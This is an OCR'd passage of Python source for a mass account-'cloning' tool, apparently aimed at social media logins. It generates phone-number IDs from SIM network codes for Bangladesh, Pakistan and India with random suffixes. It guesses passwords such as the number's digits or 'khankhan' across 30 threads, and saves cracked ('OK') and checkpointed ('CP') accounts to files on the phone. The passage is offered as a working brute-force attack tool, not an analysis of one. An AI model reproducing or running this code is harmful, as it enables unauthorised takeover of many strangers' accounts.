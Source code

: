     for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print('\033[1;97m====================================================') 
        print(f"\033[1;97m[+]\033[1;92m USER NAME\033[1;91m                :\033[1;96m "+NameX)
        print(f"\033[1;97m[+]\033[1;92m SIM NETWORK CODE YOU PUT\033[1;91m : \033[1;96m"+code)
        print(f"\033[1;97m[+]\033[1;92m TOTAL IDZ\033[1;91m                : \033[1;96m["+tl+"] ")
        print('\033[1;97m[+]\033[1;92m PASSWORD METHOD\033[1;91m          : \033[1;96m3') 
        print('\033[1;97m====================================================') 
        print(' \033[1;32mPLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        print('\033[1;97m====================================================') 
        for love in user:
            uid = code+love
            pwx = [love,'khankhan']
            manshera.submit(freeq,uid,pwx,tl)
    print('')
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m CLONING COMPLETED\n\033[1;97m[√] \033[1;92mYOUR OK IDS \033[1;91m: \033[1;96m'+str(len(ok))+'\n\033[1;97m[+]\033[1;92m TOTAL CP IDS \033[1;91m: \033[1;96m'+str(len(cp)))
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m OK IDS SAVE \033[1;91m: \033[1;96m/sdcard/OK.txt\n\033[1;97m[+]\033[1;92m CP IDS SAVE \033[1;91m: \033[1;96m/sdcard/CP.txt')
    input(f'\033[1;97m[+]\033[1;92m PRESS ENTER TO BACK MENU');os.system("clear");main()

def pass4():
    os.system("clear")
    print(logo)
    clear()
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"  \x1b[97m\033[37;41m[ S I M    N E T W O R K    C O D E    M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f"\t        \x1b[97m\033[37;41m[ EXAMPLE👇]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f'\033[1;97m[!] \033[1;92mBD SIM CODES  \033[1;91m: \033[1;96m88017, 88019, 88018, 88016')
    print(f'\033[1;97m[!] \033[1;92mPAK SIM CODES \033[1;91m: \033[1;96m0303, 0302, 0301, 0305')
    print(f'\033[1;97m[!] \033[1;92mIND SIM CODES \033[1;91m: \033[1;96m91930, 91778, 91712 , 91902  ')
    print('\033[1;97m====================================================') 
    print(f"\x1b[97m\033[37;41m BEST CODE FOR PAK [0300 / 0302 / 0306 / 0349 /0315]\033[0;m")
    print('\033[1;97m====================================================') 
    code = input('\033[1;37m[\033[1;31m!\033[1;37m]\033[1;32m PUT SIM NETWORK CODE \033[1;37m: \033[1;36m')
    os.system("clear")
    print(logo)
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"          \x1b[97m\033[37;41m[ I D S    L I M I T   M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    limit = int(input('\033[1;97m[+]\033[1;92m EXAMPLE \033[1;91m: \033[1;96m2000, 3000, 50000, 100000\n\033[1;97m====================================================\n\033[1;97m[+]\033[1;92m PUT IDS LIMIT \033[1;91m: \033[1;96m'))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()